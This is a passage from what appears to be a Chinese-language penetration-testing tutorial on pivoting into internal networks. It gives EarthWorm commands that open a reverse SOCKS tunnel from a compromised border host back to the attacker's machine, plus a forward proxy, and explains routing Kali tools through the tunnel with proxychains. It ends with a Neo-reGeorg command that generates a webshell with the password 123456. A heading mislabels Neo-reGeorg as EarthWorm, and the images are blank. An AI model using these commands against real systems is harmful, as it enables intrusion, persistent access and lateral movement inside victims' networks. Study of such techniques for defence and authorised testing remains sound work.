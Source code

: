 二、目标边界接收888端口的数据：

```
ew_for_Win.exe -s rssocks -d 192.168.2.13 -e 888
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

连接上攻击机服务端会显示rssocks cmd\_socket OK！  

这个时候修改 proxychains.conf 的端口为1008：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

之后如果想用自己的工具或者说是kali自带的工具，那么就可以在前面加上proxychains就可以了：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

### 正向代理 

目标边界执行：

```
ew_for_Win.exe -s ssocksd ‐l 1080
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

攻击机服务端修改proxychains文件：192.168.2.13是目标边界的IP

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

之后如果想用自己的工具或者说是kali自带的工具，那么就可以在前面加上proxychains就可以了：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

* * *

  

**earthworm正向跨平台socks代理**

  

```
下载地址：https://github.com/L-codes/Neo-reGeorg
```

一、生成webshell，密码是123456：  

```
python neoreg.py generate ‐k 123456
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
